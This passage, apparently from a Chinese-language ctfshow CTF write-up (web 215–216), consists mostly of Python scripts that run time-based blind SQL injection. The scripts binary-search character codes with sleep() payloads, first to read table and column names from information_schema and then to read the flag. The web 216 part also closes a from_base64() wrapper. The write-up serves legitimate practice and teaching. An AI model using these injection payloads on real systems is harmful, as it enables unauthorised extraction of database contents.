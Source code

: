 ```python
        # payload = {
        #     'ip': f"1' or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆列 flagaa
        # payload = {
        #     'ip': f"1' or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆值 
        payload = {
            'ip': f"1' or if(ascii(substr((select group_concat(flagaa) from ctfshow_flagxc),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j
```

## web 216

给`/api/`接口发请求`ip=1&debug=1`，返回了sql语句`select id from ctfshow_info where ip = from_base64($_POST[ip]);`，题目想接收一个base64编码的内容，不给，直接填充闭合`from_base64()`函数，稍加修改上题的脚本接着打

```python
import requests
import time
url = 'http://ccc4c05d-4990-48cd-b95f-6d90b024dd7f.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名 ctfshow_flagxc
        payload = {
            'ip': f"'1111') or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
        # 爆列 flagaa
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆值 
        # payload = {
        #     'ip': f"'1111') or if(ascii(substr((select group_concat(flagaa) from ctfshow_flagxc),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
```
